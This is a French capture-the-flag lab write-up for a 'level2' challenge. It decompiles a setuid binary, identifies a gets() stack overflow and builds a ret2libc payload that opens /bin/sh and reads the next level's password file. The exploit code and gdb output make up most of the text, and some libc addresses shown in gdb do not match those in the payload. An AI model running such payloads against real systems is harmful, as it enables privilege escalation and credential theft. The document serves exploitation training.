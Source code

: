 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
/home/user/level2
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level2 :

```
$ ./level2

```

Il ne répond qu'avec un input :

```
$ ./level2
da
da
```

Je décide à partir de ce niveau d'utiliser les logiciels de décompilation présent sur [Dogbolt](https://dogbolt.org/?id=4128e95e-4279-47df-81a9-a69c5f209d01).

En lui passant le binaire au préalable téléchargé, `Ghidra` me procure le code suivant :

```c
void p() {
  uint unaff_retaddr;
  char buffer[76];
  
  fflush(stdout);
  gets(buffer);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(buffer);
  strdup(buffer);
  return;
}

void main(void) {
  p();
  return;
}
```

J'identifie :

- une vulnérabilité possible avec `gets()`
- la mise en place d'un 'safeguard' avec une condition if

`Dogbolt` me propose aussi la version d'`Hexray` :

```c
char *p() {
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 )
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}
```

Etant donné qu'aucun appel à `exec` ne semble être fait dans l'ensemble du code décompilé, je me penche sur un type d'attaque appellé [Ret2Libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) et y trouve un schéma explicatif décrivant l'aspect du payload infecté nécessaire.

Afin d'exploiter `gets()`, je note d'abord que le buffer 'non-exploitable' est de 76 bytes d'après l'analyse par `Ghidra`.

Je note que la version d'`Hexray` spécifie que :

```c
unsigned int retaddr; // [esp+6Ch] [ebp+4h]
```

La partie `ebp+4` m'indique que la valeur de `retaddr` se trouve à `ebp + 4`.

`ebp` correspondant à un pointeur sur la frame de la stack actuelle, cela signifie que l'adresse de retour de `p` se trouve 4 bytes plus loin que `ebp`. Je dois donc ajouter 4 bytes à mon payload infecté afin qu'il fasse 80 bytes, et que les 4 prochains pointent sur `retaddr`.

Je compose donc mon payload infecté avec les informations suivantes :

- 80 bytes de `NOP` (`\x90`) qui correspondent à des instructions de ne rien faire et s'assure du bon alignement de la mémoire

- L'adresse de retour de `p` (trouvé avec `gdb` puis `disas main`) : `0x0804853e`

- Une adresse vers `system()` dans la `libc`

- Une adresse vers `exit()` dans la `libc`

- Une adresse vers `"bin/sh"` dans la `libc`


Pour trouver les trois dernières adresses, j'utilise `gdb` après avoir mis un `breakpoint` et avoir lancé le programme, afin de regarder sa mémoire :

```
# System
(gdb) info function system
0x08048360  system
0x08048360  system@plt
...

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
...

# /bin/sh
(gdb) info proc mappings
...
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Je construis mon payload en utilisant python, y ajoute une lecture du `.pass` du level3, et enfin le passe à l'executable `level2` :

```python
(python -c 'print("\x90"*80
+ "\x08\x04\x85\x3e"[::-1] # <- return address of p [::-1] is an inverted splice
+ "\xb7\xe6\xb0\x60"[::-1] # <- return address of system
+ "\x08\x04\x83\xd0"[::-1] # <- return address of exit
+ "\xb7\xf8\xcc\x58"[::-1] # <- return address of "bin/sh"
)' && echo 'cat /home/user/level3/.pass') | ./level2

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

